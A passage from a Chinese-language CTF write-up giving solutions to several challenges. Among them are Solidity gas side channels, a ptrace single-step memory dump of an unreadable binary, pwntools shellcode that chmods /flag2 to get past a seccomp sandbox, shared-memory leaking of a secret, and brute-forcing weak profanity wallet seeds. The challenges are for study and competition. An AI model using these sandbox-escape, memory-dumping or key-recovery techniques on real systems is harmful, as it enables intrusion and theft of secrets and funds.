    username = request.values.get('username')
    data = {'username': username}
    r = requests.post('http://202.38.93.111:11230/captcha', headers=header, data=data).json()
    open('r.png', 'wb').write(base64.b64decode(r['result']))
    t = checkcode(r['result'])
    return str(sum(u in '0123456789' for u in t) >= 5)


app.run(host='127.0.0.1', port=55555)
```

（至于验证码识别 api，网上一搜有一堆，不过能正确识别这么多位的，还是不好找）

## 链上记忆大师

### 记忆练习

```solidity
contract MemoryMaster {
    uint256 n2;
    function memorize(uint256 n) external {
        n2 = n;
    }
    function recall() external view returns (uint256) {
        return n2;
    }
}
```

### 牛刀小试

用 gas 的变化来获取 n。

```solidity
contract AMM {
    function memorize(uint16 n) external {
        uint n2=n;
        for(uint i=0;i<n2;i++){
        }
    }
    function recall() external view returns (uint16) {
        return uint16(450183-(gasleft()*1000-10000)/109265);
    }
}
```

### 终极挑战

查看 https://github.com/wolflo/evm-opcodes/blob/main/gas.md，可以发现一个地址在第一次访问时会消耗更多 gas。可以利用此特性来判断每一位。

```solidity
contract A {
    function test(uint256 x) internal view returns (bool) {
        uint32 size;
        uint256 gas = gasleft();
        assembly {
            size := extcodesize(x)
        }
        return gas - gasleft() < 1000;
    }
    function memorize(uint256 n) external view {
        for (uint i = 0; i < 256; i++) {
            if ((n >> i & 1) == 1) test(114514 + i);
        }
    }
    function recall() external view returns (uint256) {
        uint256 res = 0;
        for (uint i = 0; i < 256; i++) {
            if(test(114514 + i)) res += 1 << i;
        }
        return res;
    }
}
```

## 片上系统

用 PulseView 打开，选择 SD 卡的协议，枚举每条信号是什么，可以得到一堆数据。也许是因为操作错误，我得到的数据中部分扇区偏移了少量 bit，需要手动修复。

将 binary 拖到 IDA 中，首先逆第一个扇区，根据一堆 `li xx, 200000xxh`，可以猜测基址是 `0x20000000`。



下面这个循环将 SD 卡读出的数据写到了 `0x20001000` 开始的地方。

将 binary 从 `0x200` 开始的部分加载到这个地址，可以继续逆向。


可以在文件中发现题目提示的字符串。

而其中一个输出循环大概长这样：



（将 `a3` 开始的 byte 一个一个复制到了 `a6`，并且会等待 `a4` 指示输出成功）

调用这个输出的还有一个函数，是用来输出一个整数的 16 进制表示的：



而输出 flag 的部分就比较明显了：



计算出这三个参数就可以得到 flag：`flag{20001018feadae83000000e0}`。

## 传达不到的文件

搜索到 https://reverseengineering.stackexchange.com/questions/98/how-can-i-analyse-an-executable-with-no-read-permission，其中提到可以 `ptrace`，并且还有一个可用的 poc：xocopy。

不过这个似乎是为 32 位程序准备的，但也有人给出了一个 64 位的版本：https://gist.github.com/david942j/4c1f1e241fda34cb4e8e88236f03e663。

这个版本首先有个问题是太慢了，因为他会尝试遍历地址空间。其次，经过测试，在本地及题目的内核版本下，`PTRACE_PEEKDATA` 对于这种程序是读不到内存的。

但是可以使用 `PTRACE_SINGLESTEP` 获取到程序的执行流。

代码片段大致如下：

```c
while (1) {
    ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL);
    struct user_regs_struct regs;
    ptrace(PTRACE_GETREGS, pid, NULL, &regs);
    fprintf(stderr, "{{ %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx }}\n", regs.rip
    ,regs.rax,regs.rbx,regs.rcx,regs.rdx,regs.rdi,regs.rsi,regs.rbp,regs.rsp
    ,regs.r8,regs.r9,regs.r10,regs.r11,regs.r12,regs.r13,regs.r14,regs.r15);
}
```

手动分析执行流，猜测 0x1f2a 处有一个判断 flag 的循环。于是写代码不停对这个循环进行单步调试，可以获取到 flag1 的每一位。

```c
u_int64_t addr;
while (1) {
    ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL);
    struct user_regs_struct regs;
    ptrace(PTRACE_GETREGS, pid, NULL, &regs);
    if ((regs.rcx >> 44) == 5) {
        addr = regs.rcx - 0x40;
        break;
    }
}
fprintf(stderr, "base addr: %lx\n", addr);
char res[100]={};
for(int i=0;i<100;i++){
    struct user_regs_struct regs;
    for(int j=0;j<256;j++){
        ptrace(PTRACE_GETREGS, pid, NULL, &regs);
        regs.rip=addr+0x1f2a;
        regs.rdi=addr+0x5040;
        regs.rsi=addr+0x5120;
        regs.rax=j;
        regs.rcx=i;
        ptrace(PTRACE_SETREGS, pid, NULL, &regs);
        ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL);
        ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL);
        ptrace(PTRACE_GETREGS, pid, NULL, &regs);
        if(regs.rip==addr+0x1f2f){
            res[i]=j;
            printf("%d %d\n",i,j);
            break;
        }
    }
    fprintf(stderr, "%d %s\n", i, res);
}
```

同时也可以将他比较的地址改成 ELF 里其他位置的地址，就能 dump 出整个文件了。

逆向后发现，他会读取一段 shellcode，并在 `seccomp` 沙箱里执行。但是这个沙箱似乎只是对 `open` 做出了限制，于是我们可以把 `/flag2` chmod 掉，然后退出去再直接读取。

```python
from pwn import *
import os, gzip, base64, subprocess
context.arch = 'amd64'
context.bits = 64
context.log_level = 'debug'

shellcode = shellcraft.pushstr('/flag2')
shellcode += shellcraft.chmod('rsp', 0o644)

payload = asm(shellcode).ljust(0x1000, b'\x90')
open('/tmp/1.bin', 'wb').write(b'flag{ptr4ce_m3_4nd_1_w1ll_4lways_b3_th3r3_f0r_u}\n' + payload + b'\necho 123\n')
s = subprocess.getoutput('cat /tmp/1.bin | gzip -9 | base64').strip().replace('\n', '')

print('echo %s | base64 -d | gzip -d > /tmp/flag\n/chall < /tmp/flag\n' % s)
```

## 看不见的彼方

翻了翻 linux syscall 列表，在没被禁的 syscall 里发现了 shmget，于是就可以用共享内存了。

Alice：

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/shm.h>
int main(){
    void *shm = NULL;
    int shmid = shmget((key_t)1234, 0x1000, 0666|IPC_CREAT);
    if (shmid == -1)
    {
        fprintf(stderr, "shmat failed\n");
        exit(1);
    }
    shm = shmat(shmid, 0, 0);
    if (shm == (void *)-1)
    {
        fprintf(stderr, "shmat failed\n");
        exit(1);
    }
 
    printf("Memory attached at %p\n", shm);

    FILE*f=fopen("/secret","r");
    fscanf(f,"%s",shm+8);
    *(int*)shm=1;
}
```

Bob：

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/shm.h>
int main(){
    void *shm = NULL;
    int shmid = shmget((key_t)1234, 0x1000, 0666|IPC_CREAT);
    if (shmid == -1)
    {
        fprintf(stderr, "shmat failed\n");
        exit(1);
    }
    shm = shmat(shmid, 0, 0);
    if (shm == (void *)-1)
    {
        fprintf(stderr, "shmat failed\n");
        exit(1);
    }
 
    fprintf(stderr, "Memory attached at %p\n", shm);
    while(*(int*)shm!=1);
    puts(shm+8);
}
```

## 量子藏宝图

BB84 就是取出了制备基底和测量基底中相同的部分。发 280 个 x 和 280 个 1 过去，然后数一下测量基底里面有多少个 x，用这么多个 1 当密钥即可。进入之后就可以得到一张图片。

多次重置任务，对比得到的图片，可以发现他们基本都是相同的，只有少量成对出现的门不同，可以合理猜测他们无关紧要。而剩下的信息就只有 $q_i$ 是否连向 $q_{128}$ 了。

手动提取出来可以发现确实这就是 flag。

```python
s = '''
10111110
01100110
11001100
01101100
10100110
00100110
00011100
01101100
10100110
00001100
10100110
11011110
11100110
10000110
'''
r = []
for t in s.split():
    r.append(int(t[::-1], 2))
print(bytes(r[::-1]))
```

## 《关于 RoboGame 的轮子永远调不准速度这件事》

经测试，可以执行 9 条 w 指令。而 w 的 size 决定了可以在 `speedtb` 中跳过多少个。于是跳过不需要的，把剩下的都改写成 `0x19` 即可。

```python
from pwn import *

exp = '''w 1 3 0 0 0
w 6 1 25
w 1 3 0 0 0
w 9 1 25
w 1 3 0 0 0
w 1 1 25'''

r = remote('202.38.93.111', 11451)
r.recvuntil('token: ')
r.sendline(open('../token.txt').read())

r.recvuntil('INIT OK')

for line in exp.split('\n'):
    r.sendlineafter('> ', line)

res = []
for i in range(0x24):
    r.sendlineafter('> ', 'r %c 1' % (i + 48))
    r.recvuntil('ready\n')
    res.append(int(r.recvline().strip(), 16))

print(bytes(res))
```

## 企鹅拼盘

前两问都可以枚举所有情况并模拟。

观察数据可以发现一个性质，假如把每次操作用到的 bit 排成一个序列，则 0~1/4 与 1/2~3/4 相同，1/4~1/2 与 3/4~1 相同。并且这四部分各自也满足这个性质。进一步观察可以发现，对于所有可能的输入 bit，这四部分各自能产生的结果也只有两种。于是可以分治处理。

```python
import json
from z3 import *


class Board:
    def __init__(self):
        self.b = [[i * 4 + j for j in range(4)] for i in range(4)]

    def _blkpos(self):
        for i in range(4):
            for j in range(4):
                if self.b[i][j] == 15:
                    return (i, j)

    def reset(self):
        for i in range(4):
            for j in range(4):
                self.b[i][j] = i * 4 + j

    def move(self, moves):
        for m in moves:
            i, j = self._blkpos()
            if m == 'L':
                self.b[i][j] = self.b[i][j - 1]
                self.b[i][j - 1] = 15
            elif m == 'R':
                self.b[i][j] = self.b[i][j + 1]
                self.b[i][j + 1] = 15
            elif m == 'U':
                self.b[i][j] = self.b[i - 1][j]
                self.b[i - 1][j] = 15
            else:
                self.b[i][j] = self.b[i + 1][j]
                self.b[i + 1][j] = 15

    def __bool__(self):
        for i in range(4):
            for j in range(4):
                if self.b[i][j] != i * 4 + j:
                    return True
        return False

    def seq(self):
        r = []
        for i in range(4):
            for j in range(4):
                r.append(self.b[i][j])
        return tuple(r[:-1])


moves = json.loads(open('chals/b64_obf.json').read())
tm = []
o = []
for x, a, b in moves:
    board = Board()
    board.move(a)
    sa = board.seq()
    board = Board()
    board.move(b)
    sb = board.seq()
    tm.append((x, sa, sb))


ans = [Bool('x%d' % i)for i in range(64)]

solver = Solver()


def solve(l, r):
    if l + 1 == r:
        x, a, b = tm[l]
        assert a != b
        return {a: ans[x], b: Not(ans[x])}
    u = (r - l) // 4
    s1 = solve(l, l + u)
    s2 = solve(l + u, l + u * 2)
    s3 = solve(l + u * 2, l + u * 3)
    s4 = solve(l + u * 3, r)
    s13 = []
    s24 = []
    for p1, c1 in s1.items():
        for p3, c3 in s3.items():
            tmp = simplify(And(c1, c3))
            if solver.check(tmp) == sat:
                s13.append((p1, p3, tmp))
    for p2, c2 in s2.items():
        for p4, c4 in s4.items():
            tmp = simplify(And(c2, c4))
            if solver.check(tmp) == sat:
                s24.append((p2, p4, tmp))
    res = {}
    for p1, p3, c13 in s13:
        for p2, p4, c24 in s24:
            con = And(c13, c24)
            assert solver.check(con) == sat
            cur = p1[:]
            cur = tuple(cur[x] for x in p2)
            cur = tuple(cur[x] for x in p3)
            cur = tuple(cur[x] for x in p4)
            if cur in res:
                res[cur] = Or(res[cur], con)
            else:
                res[cur] = con
    return res


perms = solve(0, len(tm))
for perm, con in perms.items():
    if perm != tuple(range(15)):
        assert solver.check(con) == sat
        m = solver.model()
        print(''.join(str(int(str(m[x]) == 'True'))for x in ans))
```

## 小 Z 的靓号钱包

随机种子只有 32bit：https://github.com/johguse/profanity/blob/d7ff830d2eae7b9d24c80e5192319f414d8bf526/Dispatcher.cpp#L285

得到的 4 个 seed，最高的 3 字节会被先置 0：https://github.com/johguse/profanity/blob/d7ff830d2eae7b9d24c80e5192319f414d8bf526/profanity.cl#L332

然后在 GPU 上每次枚举一个字节：https://github.com/johguse/profanity/blob/d7ff830d2eae7b9d24c80e5192319f414d8bf526/Dispatcher.cpp#L241

可以枚举最高的 3 字节，将所给地址的公钥减去这么多，存到表里。然后枚举随机种子，将置 0 高位后的公钥求出，查表可知是否正确。

## 火眼金睛的小 E

### 有手就行

拖进 IDA 手动识别，同时可以发现两个函数的大小较为接近。

### 唯快不破

取函数大小和指令数作为特征进行识别。函数的识别偷懒用了 `endbr64`。

```python
from pwn import *
import os, shutil, requests, subprocess


def get_functions(s):
    cnt = 0
    funcs = [[0, 0, 0]]
    for line in s.split('\n'):
        if len(line) <= 10 or line[8] != ':':
            continue
        addr = int(line[:8], 16)
        funcs[-1][1] += 1
        if 'endbr64' in line:
            funcs[-1][2] = addr - funcs[-1][0]
            funcs.append([addr, 0, 0])
    return funcs[1:]


def check(target):
    out1 = subprocess.getoutput('objdump -d /tmp/bin1')
    out2 = subprocess.getoutput('objdump -d /tmp/bin2')
    f1 = get_functions(out1)
    f2 = get_functions(out2)
    for x, y, z in f1:
        if x == target:
            break
    if x != target:
        return f1, f2, None
    r = []
    for a, b, c in f2:
        r.append((abs(b - y) * 10 + abs(c - z) * 2, (a, b, c)))
    r.sort()
    return f1, f2, r[0][1][0]


def down(url, id):
    url = url.strip().decode()
    open('/tmp/bin%d' % id, 'wb').write(requests.get(url).content)


if 0:
    shutil.copyfile('b1', '/tmp/bin1')
    shutil.copyfile('b2', '/tmp/bin2')
    print(hex(check(0x52e8)))
    exit()

dry = False

r = remote('202.38.93.111', 12400)
r.recvuntil(b'token: ')
r.sendline(open('../token.txt', 'rb').read())
r.recvuntil(b'3. Easy')
r.sendline(b'2')
r.recvuntil(b'(y/N)')
if dry:
    r.sendline(b'y')
else:
    r.sendline(b'n')
r.recvuntil(b'Please input the timestamp: ')
r.sendline(b'1666431949')
correct = 0
for i in range(100):
    r.recvuntil(b'Challenge %d' % (i + 1))
    r.recvuntil(b'1st binary: ')
    down(r.recvline(), 1)
    r.recvuntil(b'2nd binary: ')
    down(r.recvline(), 2)
    r.recvuntil(b'function at ')
    target = int(r.recvuntil(' ')[:-1], 16)
    f1, f2, t = check(target)
    if t is None:
        shutil.copyfile('/tmp/bin1', 'btmp/%da' % (i + 1))
        shutil.copyfile('/tmp/bin2', 'btmp/%db' % (i + 1))
        print(hex(target))
        t = int(open('btmp/%d.txt' % (i + 1)).read(), 16)
    r.sendline(hex(t).encode())
    if dry:
        r.recvuntil('-> ')
        real = int(r.recvline().strip(), 16)
        if real == t:
            correct += 1
        open('bdump/%d.txt' % i, 'w').write(repr((f1, f2, target, real)))
        print('predict:', hex(t), 'real:', hex(real), 'ratio', correct / (i + 1))
    else:
        print(i + 1, 'predict:', hex(t))
r.interactive()
```

正确率大概在 35%，需要手做几个。

## 大力出奇迹

发现不能光靠这两个特征了。找了几个样本丢进 IDA，发现函数调用的一堆 `nullsub_XX` 可以作为特征。而这个 `XX` 其实基本就是从前往后数的第几个。

顺便，光靠 `endbr64` 识别函数也不够用了，于是调用了一下 IDA 来干这个。

```python
import sys, traceback
import idc
import idautils

idc.auto_wait()
open(idc.get_input_file_path() + '_func.txt', 'w').write(str(list(idautils.Functions())))
```

```python
from pwn import *
import os, shutil, requests, subprocess


def get_functions(s, hint):
    cnt = 0
    funcs = {0: [0, 0, []]}
    lstfunc = 0
    sfuncs = {}
    for line in s.split('\n')[3:]:
        if len(line) <= 10 or line[8] != ':':
            continue
        addr = int(line[:8], 16)
        funcs[lstfunc][0] += 1
        if 'endbr64' in line or addr in hint:
            funcs[lstfunc][1] = addr - lstfunc
            if funcs[lstfunc][0] == 3:
                sfuncs[lstfunc] = len(sfuncs)
            funcs[addr] = [0, 0, []]
            lstfunc = addr
        elif 'call' in line:
            u = line.split('call', 1)[1].strip()
            if u[0] in '0123456789abcdef':
                call_target = int((u + ' ').split(' ', 1)[0], 16)
                if call_target in funcs and call_target in sfuncs:
                    funcs[lstfunc][2].append(sfuncs[call_target])
    funcs.pop(0)
    for x, y in funcs.items():
        y[2].sort()
    return funcs


def _match(a, b, diff, req, threshold):
    f = [[0] * (len(b) + 1) for _ in range(len(a) + 1)]
    for i in range(len(a) + 1):
        for j in range(len(b) + 1):
            u = 0
            if j > 0:
                u = f[i][j - 1]
            if i > 0:
                u = max(u, f[i - 1][j])
            if i > 0 and j > 0 and 0 <= a[i - 1] - b[j - 1] + diff <= req:
                u = max(u, f[i - 1][j - 1] + 1)
            f[i][j] = u
    return f[len(a)][len(b)] >= threshold


def match_calls(a, b):
    if len(a) == 0:
        return len(b) == 0
    if abs(len(a) - len(b)) > 3:
        return False
    if len(a) <= 5:
        for i in range(-3, 5):
            if _match(a, b, i, 3, len(a)):
                return True
    elif len(a) <= 10:
        for i in range(-5, 7):
            if _match(a, b, i, 3, int(max(len(a), len(b)) * 0.79)):
                return True
    else:
        for i in range(-13, 18):
            if _match(a, b, i, 7, int(max(len(a), len(b)) * 0.79)):
                return True
    return False


def check2():
    if target not in f1:
        return None
    insn_cnt, size, calls = f1[target]
    r = []
    for addr, (ic, sz, _) in f2.items():
        r.append((abs(ic - insn_cnt) * 10 + abs(sz - size) * 3, addr))
    r.sort()
    for _, addr in r:
        if match_calls(calls, f2[addr][2]):
            return addr


for case in range(1, 201):
    print(case)
    out1 = subprocess.getoutput('objdump -d cdump/%da' % case)
    out2 = subprocess.getoutput('objdump -d cdump/%db' % case)
    f1 = get_functions(out1, eval(open('cdump/%da_func.txt' % case).read()))
    f2 = get_functions(out2, eval(open('cdump/%db_func.txt' % case).read()))
    target = int(open('cdump/%d.txt' % case).read())
    open('cdump/%d_ans.txt' % case, 'w').write(str(check2()))
```

正确率大概有 28%，也还是得手做几个。